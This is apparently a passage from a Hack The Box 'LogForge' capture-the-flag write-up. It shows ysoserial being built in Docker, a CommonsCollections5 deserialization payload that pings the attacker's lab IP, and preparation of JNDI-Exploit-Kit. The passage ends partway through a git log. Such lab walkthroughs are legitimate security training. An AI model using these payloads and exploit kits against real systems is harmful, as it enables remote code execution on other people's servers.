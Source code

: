 ```bash
[INFO] Total time: 25.507 s
[INFO] Finished at: 2024-08-11T08:54:05Z
[INFO] ------------------------------------------------------------------------
Removing intermediate container ab840c69ce44
 ---> 38838e3b092e
Step 10/14 : RUN mv target/ysoserial-*all*.jar target/ysoserial.jar
 ---> Running in 5ab7bf127e30
Removing intermediate container 5ab7bf127e30
 ---> 4a48e3082850
Step 11/14 : FROM openjdk:8-jdk-alpine
8-jdk-alpine: Pulling from library/openjdk
e7c96db7181b: Pull complete 
f910a506b6cb: Pull complete 
c2274a1a0e27: Pull complete 
Digest: sha256:94792824df2df33402f201713f932b58cb9de94a0cd524164a0f2283343547b3
Status: Downloaded newer image for openjdk:8-jdk-alpine
 ---> a3562aa0b991
Step 12/14 : WORKDIR /app
 ---> Running in b0a9a1d27f3c
Removing intermediate container b0a9a1d27f3c
 ---> ec6852df9500
Step 13/14 : COPY --from=builder /app/target/ysoserial.jar .
 ---> f86d5d5ebcb6
Step 14/14 : ENTRYPOINT ["java", "-jar", "ysoserial.jar"]
 ---> Running in c28a2555879b
Removing intermediate container c28a2555879b
 ---> 4b8957a35cac
Successfully built 4b8957a35cac
Successfully tagged ysoserial:latest
```

Now we can create a payload, and we are going to create ping back to our machine.

```bash
$ docker run ysoserial CommonsCollections5 'ping -c 1 10.10.14.3' > ~/Desktop/HTB/LogForge/ping.ser
```

The [JNDI-Exploit-Kit](https://github.com/pimps/JNDI-Exploit-Kit) is somehow broken, because of that I decided to use a previous version.

```bash
$ cd /opt/JNDI-Exploit-Kit

git log
commit e464facbc761a1b3530181a6f37c95925c197551 (HEAD -> master, origin/master, origin/HEAD)
Author: Marcio <almeida@canva.com>
Date:   Tue Jan 11 17:21:45 2022 +1100

    adding credits section

commit 428e782f386274ca91018f081d6576db00920767
Author: Marcio <almeida@canva.com>
Date:   Tue Jan 11 16:54:01 2022 +1100

    fix readme

commit 2ca240fe3d552c7fb2c3b04e9a457e8c8ae98447
Author: Marcio <almeida@canva.com>
Date:   Tue Jan 11 16:51:30 2022 +1100

    Added full integration with ysoserial payloads.

commit 0b6925d80d453146db917616c521e7fc8419dbf7
Author: Marcio <almeida@canva.com>
Date:   Mon Dec 20 10:42:58 2021 +1100
```